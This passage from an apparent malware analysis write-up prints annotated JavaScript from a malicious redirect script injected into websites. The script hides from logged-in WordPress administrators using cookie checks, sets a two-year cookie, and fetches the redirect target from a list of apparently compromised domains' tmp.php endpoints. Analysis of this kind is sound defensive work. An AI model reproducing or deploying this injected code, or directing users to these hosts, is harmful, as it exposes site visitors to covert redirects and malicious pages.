 ```javascript
        return c_value;
    }

    function setCookie(c_name, value, exdays) { //Create a cookie with the passed parameters
        var exdate = new Date();
        exdate.setDate(exdate.getDate() + exdays);
        var c_value = escape(value) + ((exdays == null) ? "" : "; expires=" + exdate.toUTCString());
        document.cookie = c_name + "=" + c_value;
    }

    function checkCookie() {
        if (localStorage.getItem('yYjra4PCc8kmBHess1ib') === '1') { //Check if a local storage object named yYjra4PCc8kmBHess1ib exists with the value 1
            return true;
        } else {
            localStorage.setItem('yYjra4PCc8kmBHess1ib', '1'); //Create the local storage object if it does not exist
        }
        var referrerRedirectCookie = getCookie("referrerRedirectCookie");
        if (referrerRedirectCookie != null && referrerRedirectCookie != "") { //If the referrerRedirectCookie does not exist return true
            return true;
        } else if (document.cookie.indexOf('wordpress_logged') !== -1 || document.cookie.indexOf('wp-settings') !== -1 || document.cookie.indexOf('wordpress_test') !== -1) { //If certain wordpress cookies do not exist return true
            return true;
        } else {
            setCookie("referrerRedirectCookie", "do not redirect", 730); //If everything else fails, set the referrerRedirectCookie cookie for 2 years
            return false;
        }
    }
}
var readyStateCheckInterval = setInterval(function() {
    if (document.readyState === 'complete' || document.readyState == 'interactive') {
        clearInterval(readyStateCheckInterval);
        start();
    }
}, 10)
```

I came across another variant of the final payload. There are some minor differences but is functional similar

```javascript
var w_location = null;
var domains = ['http://kntsv.nl/images/tmp.php', 'http://grimhoj.dmcu.dk/modules/mod_xsystem/tmp.php', 'http://langedijke.nl/plugins/tmp.php', 'http://megateuf.edelo.net/cgi-bin/tmp.php', 'http://www.icanguri.com/modules/mod_xsystem/tmp.php', 'http://www.pflege-tut-gut.de/wp-content/plugins/tv1/tmp.php', 'http://yofeet.com/drupal/modules/tmp.php', 'http://squash-moyennedurance.fr/modules/mod_xsystem/tmp.php', 'http://www.devonportmotors.co.nz/images/tmp.php']; //Array of sites which will return the final advertising page

function getDomainName(domain) { //Perform a GET request to the passed variable and save the returned content to w_location
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
            if (xhr.responseText && xhr.responseText.trim().length > 0) {
                w_location = xhr.responseText.trim();
            }
        }
    };
```